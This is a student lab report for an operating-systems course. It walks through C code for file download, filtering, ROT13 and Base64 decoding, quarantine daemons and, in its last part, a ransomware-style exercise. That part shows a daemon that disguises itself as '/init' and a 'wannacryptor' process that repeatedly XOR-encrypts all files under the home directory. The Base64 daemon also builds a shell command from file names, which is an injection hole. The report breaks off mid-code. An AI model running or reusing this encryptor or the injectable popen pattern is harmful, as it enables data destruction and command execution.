# Sisop-2-2025-IT05

Here is the official report for our, IT05 group, work.

# Soal_1

Library:
```#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/wait.h>
#include <sys/stat.h>
#include <string.h>
#include <dirent.h>
#include <ctype.h>
```
this is the c code library for soal_1

## Sub Soal a

Command: 
```c  
./action
```


Code:
```c 
void setupClues() {
    
    struct stat st = {0};
    if (stat("Clues", &st) == -1) {

        pid_t child1 = fork();
        if (child1 == 0) {
            execlp("curl", "curl", "-L", "-o", "Clues.zip",
                   "https://drive.usercontent.google.com/u/0/uc?id=1xFn1OBJUuSdnApDseEczKhtNzyGekauK&export=download",
                   NULL);
            exit(EXIT_FAILURE);
        }
        wait(NULL);

        pid_t child2 = fork();
        if (child2 == 0) {
            execlp("unzip", "unzip", "-o", "Clues.zip", NULL); 
            exit(EXIT_FAILURE);
        }
        wait(NULL);

        pid_t child3 = fork();
        if (child3 == 0) {
            execlp("rm", "rm", "Clues.zip", NULL);
            exit(EXIT_FAILURE);
        }
        wait(NULL);
    }
}
```
#### Explanation:
Checks if the directory "Clues" already exists.
If not, it automatically downloads a zip file named Clues.zip using curl,
extracts it using the unzip command, and removes the zip file afterward.
These actions are done by forking child processes and using exec to execute external commands.
This ensures the initial required data is prepared before any further tasks run.

Output: 


## Sub Soal b

Command:
```c  
./action -m Filter
```


Code:
```c 
int isValidFileName(const char *filename) {
    char name[256];
    strncpy(name, filename, sizeof(name) - 1);
    name[sizeof(name) - 1] = '\0';

    char *dot = strchr(name, '.');
    if (dot) *dot = '\0';

    return strlen(name) == 1 && isalnum(name[0]);
}
```
#### Explanation:
Checks if the file name (excluding extension) is exactly one character long and is either a digit or a letter.
This function is used during the filtering process to validate which files are kept or deleted.


```c 
void filterFiles(const char *sourceFolder) {
    DIR *dir = opendir(sourceFolder);
    if (!dir) {
        perror("opendir");
        return;
    }

    struct stat st = {0};
    if (stat("Filtered", &st) == -1 && mkdir("Filtered", 0777) == -1) {
        perror("mkdir");
        closedir(dir);
        return;
    }

    struct dirent *entry;
    while ((entry = readdir(dir)) != NULL) {
        if (entry->d_name[0] == '.') continue;

        char path[MAX_PATH];
        snprintf(path, sizeof(path), "%s/%s", sourceFolder, entry->d_name);

        if (entry->d_type == DT_DIR) {
            filterFiles(path);
        } else if (entry->d_type == DT_REG || entry->d_type == DT_UNKNOWN) {
            if (isValidFileName(entry->d_name)) {
                char dest[MAX_PATH];
                snprintf(dest, sizeof(dest), "Filtered/%s", entry->d_name);
                if (rename(path, dest) != 0) perror("rename");
            } else {
                if (remove(path) != 0) perror("remove");
            }
        }
    }

    closedir(dir);
}
```
#### Explanation:
This function recursively traverses the "Clues" folder to find all regular files.
If a file passes the validation criteria (1-character alphanumeric name),
it is copied to a new "Filtered" folder using fork + exec (cp).
Invalid files (non-matching names) are deleted using fork + exec (rm).
The goal is to clean the dataset and keep only useful clue files.

Output: 


### Sub Soal c
Command:
```c 
./action -m Combine
```

```c 
int cmpstr(const void *a, const void *b) {
    return strcmp(*(char **)a, *(char **)b);
}

```
#### Explanation:
Used in qsort() to sort an array of file names in ascending (alphabetical) order.
This ensures consistent ordering when combining files in the next step.


Code:
```c 
void combineFiles(const char *folderPath) {
    DIR *dir = opendir(folderPath);
    if (!dir) {
        perror("Tidak bisa membuka folder");
        return;
    }

    char *angka[100], *huruf[100];
    int na = 0, nh = 0;

    struct dirent *e;
    while ((e = readdir(dir)) != NULL) {
        if (e->d_type == DT_REG && strstr(e->d_name, ".txt")) {
            if (isdigit(e->d_name[0])) angka[na++] = strdup(e->d_name);
            else if (isalpha(e->d_name[0])) huruf[nh++] = strdup(e->d_name);
        }
    }
    closedir(dir);

    qsort(angka, na, sizeof(char *), cmpstr);
    qsort(huruf, nh, sizeof(char *), cmpstr);

    printf("Urutan penggabungan file :\n");
    for (int i = 0; i < na || i < nh; i++) {
        if (i < na) printf("%s\n", angka[i]);
        if (i < nh) printf("%s\n", huruf[i]);
    }

    FILE *out = fopen("Combined.txt", "w");
    if (!out) {
        perror("Gagal membuka Combined.txt");
        return;
    }
```
#### Explanation:
Task C: This part merges the content of all filtered clue files into one output file: Combined.txt.
It separates files into two groups: those starting with digits and those starting with letters.


```c 
for (int i = 0; i < na || i < nh; i++) {
        char *files[2] = { i < na ? angka[i] : NULL, i < nh ? huruf[i] : NULL };

        for (int j = 0; j < 2; j++) {
            if (!files[j]) continue;

            char path[512], buffer[1024];
            snprintf(path, sizeof(path), "%s/%s", folderPath, files[j]);
            FILE *f = fopen(path, "r");

            if (f) {
                while (fgets(buffer, sizeof(buffer), f))
                    fputs(buffer, out);
                fclose(f);
                remove(path);
            }

            free(files[j]);
        }
    }

    fclose(out);
    puts("Semua file berhasil digabung ke Combined.txt");
}
```
#### Explanation:
Then it writes them into the combined file in alternating order (number-letter-number...).
If one group is larger, the remaining files are written at the end in sorted order.

Output: 


## Sub Soal d

Command :
```c 
./action -m Decode
```


Code:
```c 
void decodeRot13(const char *inputFile, const char *outputFile) {
    FILE *input = fopen(inputFile, "r");
    if (!input) {
        perror("Gagal membuka Combined.txt untuk membaca");
        return;
    }

    FILE *output = fopen(outputFile, "w");
    if (!output) {
        perror("Gagal membuka Decoded.txt untuk menulis");
        fclose(input);
        return;
    }

    char ch;
    while ((ch = fgetc(input)) != EOF) {
        if ((ch >= 'a' && ch <= 'z')) {
            ch = ((ch - 'a' + 13) % 26) + 'a';
        } else if ((ch >= 'A' && ch <= 'Z')) {
            ch = ((ch - 'A' + 13) % 26) + 'A';
        }
        fputc(ch, output);
    }

    fclose(input);
    fclose(output);
    printf("File berhasil didecode dan disimpan di Decoded.txt\n");
}
```
#### Explanation:
Applies the ROT13 cipher to each character in Combined.txt and writes the result into Decoded.txt.
ROT13 shifts alphabet characters by 13 positions (A ↔ N, B ↔ O, etc.).
This is used to reveal the original content of the clues.

Output: 


### Main Function 
```c 
int main(int argc, char *argv[]) {
    if (argc == 1) {
        setupClues();
        return 0;
    }

    if (argc == 3 && strcmp(argv[1], "-m") == 0) {
        if (strcmp(argv[2], "Filter") == 0) {
            filterFiles("Clues");
            printf(" Filtering selesai. File valid telah dipindahkan ke folder Filtered.\n");
            return 0;
        } else if (strcmp(argv[2], "Combine") == 0) {
            combineFiles("Filtered");
            return 0;
        } else if (strcmp(argv[2], "Decode") == 0) {
            decodeRot13("Combined.txt", "Decoded.txt");
            return 0;
        } else {
            fprintf(stderr, "Error.\n");
        }
    } else {
        fprintf(stderr, " Error: Invalid Argument.\n");
    }

    //Error Handling
    printf("Please Use:\n");
    printf("  ./program\n");
    printf("  ./program -m Filter\n");
    printf("  ./program -m Combine\n");
    printf("  ./program -m Decode\n");
    return 1;
}
```
#### Explanation:
Acts as the entry point of the program and handles user input arguments.
If no argument is given, it runs the default setup process (download and unzip).
If specific arguments are passed:
- "Filter": triggers the filtering process (Task B)
- "Combine": merges valid files into a single file (Task C)
- "Decode": decrypts the combined file using ROT13.
If the argument doesn't match any known option, it prints usage instructions. (Error Handling)


# Soal_2

```c 
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <sys/wait.h>
#include <unistd.h>
#include <string.h>
#include <dirent.h>
#include <sys/stat.h>
#include <signal.h>
#include <time.h>
#include <ctype.h>
#include <errno.h>
```
this is the c code library for soal_2

```c 

#define SIZE 4096
pid_t decrypt_pid = -1;
```
#### Explanation:
Defines SIZE as 4096 for buffer size and declares a global PID for the decrypt daemon process


## Sub Soal a

Command: 
```c 
 ./starterkit
```

Code:
```c 
void setup() {
    pid_t child1, child2, child3;

    mkdir("starter_kit", 0777);

    child1 = fork();
    if (child1 == 0) {
        execlp("curl", "curl", "-L", "-o", "starter_kit.zip",
               "https://drive.usercontent.google.com/u/0/uc?id=1_5GxIGfQr3mNKuavJbte_AoRkEQLXSKS&export=download", NULL);
        exit(EXIT_FAILURE);
    }
    wait(NULL);

    child2 = fork();
    if (child2 == 0) {
        execlp("unzip", "unzip", "-o", "starter_kit.zip", "-d", "starter_kit", NULL);
        exit(EXIT_FAILURE);
    }
    wait(NULL);

    child3 = fork();
    if (child3 == 0) {
        execlp("rm", "rm", "starter_kit.zip", NULL);
        exit(EXIT_FAILURE);
    }
    wait(NULL);
}
```
#### Explanation:
Automatically executed if no arguments are passed.
Downloads the starter_kit.zip using curl.
Extracts the contents into a 'starter_kit' folder using unzip.
Deletes the zip file afterwards.

Output: 




### Sub Soal b

Command :
```c 
./starterkit --decrypt
```

Code:
```c 
int is_base64(const char *str) {
    int len = strlen(str); 
    if (len % 4 != 0) return 0; 

    for (int i = 0; i < len; i++) {
        char c = str[i];
        
        if (!((c >= 'A' && c <= 'Z') || 
              (c >= 'a' && c <= 'z') || 
              (c >= '0' && c <= '9') || 
              c == '+' ||               
              c == '/' ||               
              c == '='))                
            return 0;
    }
    return 1; 
}
```
#### Explanation:
checks if the file name is base64


Code:
```c 
void decrypt() {
    pid_t pid, sid;
    pid = fork();

    if (pid < 0) exit(EXIT_FAILURE);
    if (pid > 0) {
        FILE *pidFile = fopen("decrypt.pid", "w");
        if (pidFile != NULL) {
            fprintf(pidFile, "%d", pid);
            fclose(pidFile);
        }
        exit(EXIT_SUCCESS);
    }

    umask(0);
    sid = setsid();
    if (sid < 0) exit(EXIT_FAILURE);
    if ((chdir(".")) < 0) exit(EXIT_FAILURE);

    mkdir("quarantine", 0777);

    while (1) {
        DIR *dir;
        struct dirent *entry;

        //Cek di starter_kit → pindah & decrypt
        dir = opendir("starter_kit");
        if (dir != NULL) {
            while ((entry = readdir(dir)) != NULL) {
                if (entry->d_type == DT_REG && is_base64(entry->d_name)) {
                    char src_path[SIZE], dst_path[SIZE], decoded[SIZE];

                    snprintf(src_path, sizeof(src_path), "starter_kit/%s", entry->d_name);

                    // Decode base64
                    FILE *fp;
                    char cmd[SIZE];
                    snprintf(cmd, sizeof(cmd), "echo %s | base64 -d", entry->d_name);
                    fp = popen(cmd, "r");
                    if (fp == NULL) continue;
                    fgets(decoded, sizeof(decoded), fp);
                    decoded[strcspn(decoded, "\n")] = '\0';
                    pclose(fp);

                    // Pindah dan rename langsung ke quarantine
                    snprintf(dst_path, sizeof(dst_path), "quarantine/%s", decoded);
                    rename(src_path, dst_path);
                }
            }
            closedir(dir);
        }
        //Cek di quarantine → decrypt jika masih base64
        dir = opendir("quarantine");
        if (dir != NULL) {
            while ((entry = readdir(dir)) != NULL) {
                if (entry->d_type == DT_REG && is_base64(entry->d_name)) {
                    char oldpath[SIZE], newname[SIZE], newpath[SIZE];

                    snprintf(oldpath, sizeof(oldpath), "quarantine/%s", entry->d_name);

                    // Decode base64
                    FILE *fp;
                    char cmd[SIZE];
                    snprintf(cmd, sizeof(cmd), "echo %s | base64 -d", entry->d_name);
                    fp = popen(cmd, "r");
                    if (fp == NULL) continue;
                    fgets(newname, sizeof(newname), fp);
                    newname[strcspn(newname, "\n")] = '\0';
                    pclose(fp);

                    snprintf(newpath, sizeof(newpath), "quarantine/%s", newname);
                    rename(oldpath, newpath);
                }
            }
            closedir(dir);
        }

        sleep(5);
    }
}
```

#### Explanation:
Runs as a daemon in the background.
Periodically (every 5 seconds):
Scans starter_kit/ for Base64-encoded filenames, decodes them, and moves them to quarantine/ with decoded names.
Re-checks quarantine/ for any missed Base64 names and renames them properly.
Creates and writes the daemon PID to decrypt.pid for later reference (--shutdown).

Output: 

)


### Sub Soal c

Command :
```c 
./starterkit --quarantine
```


Code:
```c  
void quarantineFiles() {
    DIR *dir = opendir("starter_kit");
    struct dirent *entry;

    if (dir == NULL) return;

    while ((entry = readdir(dir)) != NULL) {
        if (entry->d_type == DT_REG) {
            char oldpath[SIZE], newpath[SIZE], buffer[SIZE];
            snprintf(oldpath, sizeof(oldpath), "starter_kit/%s", entry->d_name);
            snprintf(newpath, sizeof(newpath), "quarantine/%s", entry->d_name);
            rename(oldpath, newpath);

            snprintf(buffer, sizeof(buffer), "%s - Successfully moved to quarantine directory.", entry->d_name);
            Log(buffer);
        }
    }
    closedir(dir);
}

```
#### Explanation:
Moves all regular files from starter_kit/ to quarantine/.
Logs the file move operation into activity.log.

Output: 




Command :
```c 
./starterkit --return
```


Code:
```c 
void returnFiles() {
    DIR *dir = opendir("quarantine");
    struct dirent *entry;

    if (dir == NULL) return;

    while ((entry = readdir(dir)) != NULL) {
        if (entry->d_type == DT_REG) {
            char oldpath[SIZE], newpath[SIZE], buffer[SIZE];
            snprintf(oldpath, sizeof(oldpath), "quarantine/%s", entry->d_name);
            snprintf(newpath, sizeof(newpath), "starter_kit/%s", entry->d_name);
            rename(oldpath, newpath);

            snprintf(buffer, sizeof(buffer), "%s - Successfully returned to starter kit directory.", entry->d_name);
            Log(buffer);
        }
    }
    closedir(dir);
}
```
#### Explanation:
Moves files back from quarantine/ to starter_kit/.
Logs the restoration of each file.

Output: 




### Sub Soal d

Command :
```c 
./starterkit --eradicate
```


Code:
```c 
void eradicate() {
    DIR *dir = opendir("quarantine");
    struct dirent *entry;

    if (dir == NULL) return;

    while ((entry = readdir(dir)) != NULL) {
        if (entry->d_type == DT_REG) {
            char filepath[SIZE], buffer[SIZE];
            snprintf(filepath, sizeof(filepath), "quarantine/%s", entry->d_name);
            remove(filepath);

            snprintf(buffer, sizeof(buffer), "%s - Successfully deleted.", entry->d_name);
            Log(buffer);
        }
    }
    closedir(dir);
}
```
#### Explanation:
Permanently deletes all regular files inside the quarantine/ folder.
Logs each deletion.

Output: 




### Sub Soal e

Command :
```c 
./starterkit --shutdown
```


Code:
```c 
        else if (strcmp(argv[1], "--shutdown") == 0) {
        FILE *pid_file = fopen("decrypt.pid", "r");
            if (pid_file == NULL) {
                printf("Decrypt daemon not running\n");
                exit(EXIT_FAILURE);
            }
        
            fscanf(pid_file, "%d", &decrypt_pid);
            fclose(pid_file);
        
            if (kill(decrypt_pid, SIGTERM) == 0) {
                printf("Decrypt daemon shutdown success\n");
                char buffer[SIZE];
                snprintf(buffer, sizeof(buffer), "Successfully shut off decryption process with PID %d.", decrypt_pid);
                Log(buffer); // log tambahan untuk shutdown
            
                remove("decrypt.pid"); // hapus file PID
            }
```
#### Explanation:
this code is in main function
The --shutdown block is used to terminate the decrypt daemon process. It works by:
Opening the decrypt.pid file to read the daemon's PID.
If the file doesn’t exist, it means the daemon isn’t running.
If it exists, it sends a SIGTERM signal to stop the daemon.
On success, it prints a success message, logs the shutdown, and deletes the decrypt.pid file.

Output: 




### Sub Soal f

#### Error Handling

Code:
```c 
else {
            printf("Error.\n");
            printf("Use:\n");
            printf("  --decrypt\n  --quarantine\n  --return\n  --eradicate\n  --shutdown\n");
            exit(EXIT_FAILURE);
        }
    } 
```
#### Explanation:
This else block handles invalid or missing arguments.
If the user runs the program with an unrecognized flag, it:
Prints "Error.", Shows the list of valid command-line options, Then it exits the program with failure status.

Output: 




### Sub Soal g

Code:
```c 
void Log(const char* message) {
    FILE *logFile = fopen("activity.log", "a"); //buat file dgn mode append
    if (logFile == NULL) return;

    time_t now = time(NULL);
    struct tm *t = localtime(&now);

    fprintf(logFile, "[%02d-%02d-%d][%02d:%02d:%02d] - %s\n",
        t->tm_mday, t->tm_mon+1, t->tm_year+1900,
        t->tm_hour, t->tm_min, t->tm_sec,
        message);

    fclose(logFile);
}
```
#### Explanation:
Appends messages to an activity.log file with a timestamp.
Used to track operations like moving, returning, deleting files, or daemon events.

Output: 




### Main Function

```c 
int main(int argc, char *argv[]) {
    if (argc > 1) {
        if (strcmp(argv[1], "--decrypt") == 0) {
            decrypt_pid = fork();
            if (decrypt_pid == 0) {
                decrypt();
                exit(0);
            } else {
                printf("Decrypt Process Running, PID : %d\n", decrypt_pid);

                char buffer[SIZE];
                snprintf(buffer, sizeof(buffer), "Successfully started decryption process with PID %d.", decrypt_pid);
                Log(buffer);
                
                wait(NULL);
            }
        } else if (strcmp(argv[1], "--shutdown") == 0) {
            FILE *pid_file = fopen("decrypt.pid", "r");
            if (pid_file == NULL) {
                printf("Decrypt daemon not running\n");
                exit(EXIT_FAILURE);
            }
        
            fscanf(pid_file, "%d", &decrypt_pid);
            fclose(pid_file);
        
            if (kill(decrypt_pid, SIGTERM) == 0) {
                printf("Decrypt daemon shutdown success\n");
                char buffer[SIZE];
                snprintf(buffer, sizeof(buffer), "Successfully shut off decryption process with PID %d.", decrypt_pid);
                Log(buffer); // log tambahan untuk shutdown
            
                remove("decrypt.pid"); // hapus file PID
            } else {
                printf("Failed to shutdown decrypt daemon\n");
            }            
        } else if (strcmp(argv[1], "--quarantine") == 0) {
            quarantineFiles();
        } else if (strcmp(argv[1], "--return") == 0) {
            returnFiles();
        } else if (strcmp(argv[1], "--eradicate") == 0) {
            eradicate();
        } else {
            printf("Error.\n");
            printf("Use:\n");
            printf("  --decrypt\n  --quarantine\n  --return\n  --eradicate\n  --shutdown\n");
            exit(EXIT_FAILURE);
        }
    } else {
        setup();
    }

    return 0;
}
```
#### Explanation:
Handles command-line arguments to trigger specific features:
--decrypt: Launches the decrypt daemon.
--shutdown: Stops the daemon using the PID stored in decrypt.pid.
--quarantine: Manually moves all files from starter_kit/ to quarantine/.
--return: Returns all files from quarantine/ to starter_kit/.
--eradicate: Deletes all files inside quarantine/.
If no arguments are given, it runs the setup() function automatically.

### Revision
#### Sub soal b
 Before revision, in sub-question **b** (**decrypt** function), when a new Base64-encoded file was added to the `quarantine` folder, the file was not immediately decoded. Therefore, code was added to check the `quarantine` folder — if there are any files that haven't been decoded yet, they will be decoded.

# Soal_3

## Sub Soal a

### Objective

Make a **daemon** process that can change their process name into "**/init**'. 

Block of Code that is running:

```c 
int main(int argc, char *argv[]) {
  // declaration: id process
  pid_t pid, sid; 
  pid = fork();
  if (pid < 0) { // check: fork failure
    log_error("Fork failed: %s", strerror(errno));
    exit(EXIT_FAILURE);
  }
  
  if (pid > 0) { // check: fork parent success
    exit(EXIT_SUCCESS);
  }
  
  // allowing the child to run in the background
  umask(0);
  
  // separate from terminal 
  sid = setsid();
  if (sid < 0) { // check: setsid failure
    log_error("setsid failed: %s", strerror(errno));
    exit(EXIT_FAILURE);
  }
  
  // change working directory
  if ((chdir("/")) < 0) {
    exit(EXIT_FAILURE);
  }
  
  // close standard file descriptors
  close(STDIN_FILENO);
  close(STDOUT_FILENO);
  close(STDERR_FILENO);
  
  // changing the command name
  if (pid == 0) {
    strncpy(argv[0], "/init1", 50); // init1 temporarily for testing
    argv[0][50] = '\0'; // ensure null termination
    set_process_name("/init");
  }

  // daemon process loop
  while (1) {
    sleep(1);
  }
  
  return 0;
}
```

Output: 




#### Explanation

Changing the process name of daemon into /init (in the implementation is init1 so it can be discovered easier)

```c  
// function: helper to set name
void set_process_name(const char *name) {
  prctl(PR_SET_NAME, name, NULL, NULL, NULL);
}

int main(int argc, char *argv[]) {
  // changing the command name
  if (pid == 0) {
    strncpy(argv[0], "/init1", 50); // init1 temporarily for testing
    argv[0][50] = '\0'; // ensure null termination
    set_process_name("/init");
  } 
}
```

* The main function is made to have a parameter argv as string.  
This is made so it can rename the daemon process into "/init1".  
By using the `strncpy(argv[0], "/init1", 50);` the process is changed into "/init1" by changing the first argument of the process (`argv[0]`).
* `set_process_name("/init");` is to change the process name in the kernel.  
This just use the `prctl()` function defined in `<sys/prctl.h>` library.  
`prctl()` function can rename the process, but in the kernel.

## Sub Soal b 

#### Objective

Make an encryptor child process with the name: "**wannacryptor**"; that can **scan the current directory** and **encrypt all files** inside the directory using **XOR** operation by the **timestamp** acquired from the current time of the first time process running.

Block of Code that is running:

```c
// function: encrypt files using XOR cipher
void xor_encrypt(const char *input_path, int key) {
  FILE *input_file = fopen(input_path, "rb+");
  if (!input_file) { // check: file open failure
    log_error("Failed to open file: %s (%s)", input_path, strerror(errno));
    return;
  }

  int ch; 
  while ((ch = fgetc(input_file)) != EOF) {
    fseek(input_file, -1, SEEK_CUR);
    fputc(ch ^ key, input_file);
    fflush(input_file);
  }

  fclose(input_file);
}

// function: encrypt directory and its contents
void encrypt_dir(const char *path, int key) {
  DIR *dir = opendir(path);
  if (!dir) {
    log_error("Failed to open directory: %s (%s)", path, strerror(errno));
    return;
  }

  struct dirent *entry;
  while ((entry = readdir(dir)) != NULL) {
    if (strcmp(entry->d_name, ".") == 0 || strcmp(entry->d_name, "..") == 0) {
      continue; // Skip current and parent directories
    }

    char full_path[1024];
    snprintf(full_path, sizeof(full_path), "%s/%s", path, entry->d_name);

    if (entry->d_type == DT_DIR) {
      // If it's a directory, recursively encrypt it
      encrypt_dir(full_path, key);
    } else if (entry->d_type == DT_REG) {
      // If it's a regular file, encrypt it
      xor_encrypt(full_path, key);
    }

  }
  closedir(dir);
}

int main(int argc, char *argv[]) {
  // first feature
  pid_t wannacryptor_pid = fork();
  if (wannacryptor_pid == 0) {
      set_process_name("wannacryptor");
      while (1) {
          time_t timestamp = time(NULL);
          encrypt_dir(home, (int)(timestamp % 256));
          fprintf(log_file, "Encryption performed at %ld\n", timestamp);
          fflush(log_file);
          sleep(30);
      }
